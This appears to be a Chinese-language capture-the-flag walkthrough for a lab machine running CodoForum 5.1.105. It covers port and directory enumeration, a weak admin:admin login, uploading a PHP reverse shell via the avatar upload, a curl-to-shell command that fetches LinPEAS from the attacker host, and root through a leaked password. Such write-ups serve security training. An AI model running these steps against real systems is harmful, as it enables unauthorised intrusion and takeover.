 ```yaml
---
description: Linux - Easy：CODOFORM V.5.1.105
---
```


# ✔️ Codo

## 建立立足点

### 信息枚举

使用Nmap对目标系统进行开放端口扫描，获得2个端口：22和80

```bash
nmap -sC -sV -p- -oA codo 192.168.200.23 --open  
```

<figure><img src="../.gitbook/assets/1 (3).png" alt=""><figcaption></figcaption></figure>

检查80端口上的Web页面：

<figure><img src="../.gitbook/assets/2 (3).png" alt=""><figcaption></figcaption></figure>

尝试枚举80端口上的隐藏文件/目录，并在**/admin**路径上发现登录界面：

```bash
dirsearch -u http://192.168.200.23
```

<figure><img src="../.gitbook/assets/3 (3).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/4 (3).png" alt=""><figcaption></figcaption></figure>

尝试用弱口令<mark style="color:red;">**admin:admin**</mark>登录成功：

<figure><img src="../.gitbook/assets/5 (3).png" alt=""><figcaption></figcaption></figure>

并且发现目标正在使用的是：CODOFORM V.5.1.105

<figure><img src="../.gitbook/assets/6 (3).png" alt=""><figcaption></figcaption></figure>

### 漏洞查阅

查找相关漏洞发现其有一个远程命令执行的漏洞可以利用：

```bash
searchsploit codoforum 5.1
searchsploit -m 50978.py .
```

<figure><img src="../.gitbook/assets/7 (4).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/8 (4).png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

根据该脚本的使用方法所构造的命令确认无误后，发现仍然利用不成功。但仍然从该脚本中获取到了重要的信息：**可在admin设置中上传脚本**

<figure><img src="../.gitbook/assets/9 (3).png" alt=""><figcaption></figcaption></figure>

决定直接在admin后台中上传反弹shell来get shell。

* 先在全局设置中的可上传文件类型中**添加.php**，以方便后续上传**php-reverse-shell.php脚本**

<figure><img src="../.gitbook/assets/10 (3).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/11 (2).png" alt=""><figcaption></figcaption></figure>

* 然后准备好php-reverse-shell.php脚本，修改好反弹shell监听的主机IP和端口号，并在Kali本机监听好端口：

```bash
// Kali本机监听
nc -lvnp 1234
```

<figure><img src="../.gitbook/assets/12 (2).png" alt=""><figcaption></figcaption></figure>

* 在用户->管理用户->admin的设置页面中，找到头像上传项，并将准备好的反弹shell脚本上传后，点save键触发脚本：

<figure><img src="../.gitbook/assets/13 (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/14 (2).png" alt=""><figcaption></figcaption></figure>

### GET SHELL

成功获得反弹shell，并获得local.txt：

<figure><img src="../.gitbook/assets/15 (2).png" alt=""><figcaption></figcaption></figure>

## 权限提升

### 本地信息枚举

上传LinPEAS.sh脚本，对目标进行本地信息收集，已发现可利用的提权漏洞：

```bash
// Kali本机准备好linpeas.sh脚本，并在所属目录下开启服务器
python3 -m http.server
// 在目标系统中，下载linpeas.sh到本地并且直接执行
curl -L 192.168.45.172:8000/linpeas.sh |sh
```

<figure><img src="../.gitbook/assets/16 (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/17 (2).png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

阅读linpeas.sh脚本的输出结果后，发现一个密码：<mark style="color:red;">**FatPanda123**</mark>

<figure><img src="../.gitbook/assets/18 (2).png" alt=""><figcaption></figcaption></figure>

并且已知当前系统上有两个用户账户：offsec和root，分别尝试后发现它是root账户的密码。

### ROOT

<figure><img src="../.gitbook/assets/19 (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/20.png" alt=""><figcaption></figcaption></figure>
